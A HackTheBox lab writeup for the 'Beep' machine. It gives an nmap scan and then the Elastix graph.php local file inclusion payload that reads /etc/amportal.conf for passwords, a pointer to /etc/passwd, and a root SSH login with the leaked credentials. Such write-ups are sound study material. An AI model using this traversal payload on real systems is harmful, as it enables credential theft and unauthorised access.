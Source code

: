 ```yaml
---
layout: post
title:  "HTB Beep Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Beep was a very easy box with not much to learn. Would have liked to see more complex methods included as the initial vector was different and could have led to more interesting things.


# Nmap scan
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL APOP LOGIN-DELAY(0) STLS AUTH-RESP-CODE EXPIRE(NEVER) TOP IMPLEMENTATION(Cyrus POP3 server v2) USER RESP-CODES PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            743/udp  status
|_  100024  1            746/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK RENAME URLAUTHA0001 IMAP4 NO X-NETSCAPE QUOTA SORT CONDSTORE MULTIAPPEND UNSELECT IDLE CATENATE IMAP4rev1 ACL THREAD=REFERENCES LITERAL+ RIGHTS=kxte ATOMIC NAMESPACE BINARY ID LIST-SUBSCRIBED SORT=MODSEQ MAILBOX-REFERRALS CHILDREN ANNOTATEMORE UIDPLUS THREAD=ORDEREDSUBJECT STARTTLS LISTEXT
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2018-10-31T09:44:22+00:00; -2h00m46s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host
```

# Exploitation
We can see from the nmap scan and from navigating the page that the webserver is running elastix. A exploit-db search for elastix returns a local file inclusion that should reveal a user login and password from a config file.
```
Elastix 2.2.0 - 'graph.php' Local File Inclusion | exploits/php_webapps/37637.pl
```
Reading the exploit and grabbing the payload we can navigate back to the page and read the config file with the LFI
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
There are passwords in the config file as expected, next we can change the LFI to point to /etc/passwd to check for user accounts to try ssh with.

sshing into the box as root with the password from the config file works and we can collect our root and user flags.
